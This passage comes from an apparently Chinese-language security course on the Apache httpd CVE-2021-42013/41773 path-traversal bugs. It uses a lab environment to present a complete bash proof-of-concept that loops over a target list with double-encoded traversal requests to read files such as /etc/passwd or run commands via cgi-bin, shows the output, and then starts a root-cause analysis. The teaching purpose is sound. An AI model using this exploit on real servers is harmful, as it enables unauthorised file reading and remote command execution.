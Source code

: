 **我们来来看看第二种方案，尝试使用MiTuan直接启动环境。**

我已经构建好了标准的2.4.50版本httpd服务器环境，你可以访问[MiTuan](http://mituan.zone)，直接搜索\[极客时间-漏洞挖掘与智能攻防实战]并选择\[CVE-2021-42013]来进行测试。

PoC代码如下：

```
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
  echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
  echo ./PoC.sh targets.txt /etc/passwd
  echo ./PoC.sh targets.txt /bin/sh id
  exit
fi

for host in $(cat $1);
do
  echo $host
  if [[ $3 == '' ]]; then
    curl -v --path-as-is "$host/icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2";
    exit
  fi
  curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2";
done
```

执行PoC代码：

```bash
root@1dd54d1b3962:/home# ./CVE-2021-42013.sh targets.txt /etc/passwd
127.0.0.1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

root@1dd54d1b3962:/home# ./CVE-2021-42013.sh targets.txt /bin/sh id
http://127.0.0.1
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

可以看到我们可以通过该漏洞访问到`/etc/passwd`文件，并且执行命令获取当前环境的用户信息。

#### CVE-2021-41773 漏洞分析

在成功利用漏洞之后，接下来我们要探究一下漏洞的具体成因。考虑到CVE-2021-42013与CVE-2021-41773是兄弟漏洞，CVE-2021-42013是由于修复不完善导致的变形，所以这里我们从CVE-2021-41773分析入手。

CVE-2021-41773影响的是Apache HTTP Server 2.4.49版本，因此我们可以：从官网下载对应的源代码，使用常用的编辑器查看：[https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz](https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz)，或者通过MiTuan的CVE-2021-42013漏洞环境查看。MiTuan的漏洞环境中的`/home/httpd-2.4.49`包含了对应的源码，同时也内置了vim编辑器。

